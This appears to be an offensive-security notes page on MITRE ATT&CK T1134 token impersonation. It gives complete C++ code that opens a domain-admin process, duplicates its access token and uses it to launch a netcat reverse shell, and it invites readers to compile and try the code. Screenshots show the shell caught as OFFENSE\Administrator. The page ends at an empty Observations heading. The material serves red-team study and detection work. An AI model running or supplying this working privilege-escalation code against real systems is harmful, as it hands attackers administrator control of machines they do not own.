 ```yaml
---
description: 'Defense Evasion, Privilege Escalation'
---
```


# T1134: Access Token Manipulation

## Execution

One of the techniques of token manipulations is token impersonation by creating. This is when a token of an already existing access token present in one of the running processes on the local host, is retrieved and duplicated and then used when creating a new process.

The high level process is as follows:

| Step | Win32 API |
| :--- | :--- |
| Open a process which has the access token you want to steal. | `OpenProcessToken` |
| Make a duplicate token of the token in the process opened | `DuplicateTokenEx` |
| Create a new process with the newly aquired | `CreateProcessWithTokenW` |

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal its token from, since it is running as a domain admin and makes for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../.gitbook/assets/tokens-victim-3060.png)

Note te line 16 which specifies the executable that should be launched with an impersonted token, which in our case is a simple netcat reverse shell:

![](../.gitbook/assets/tokens-shell-c++.png)

And this is the code if you want to compile and try it yourself:

{% code-tabs %}
{% code-tabs-item title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching the tokens.exe from the powershell console spawns a reverse shell that the we catch on the attacking system. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token impersonation:

![](../.gitbook/assets/token-shell-impersonated.png)

## Observations

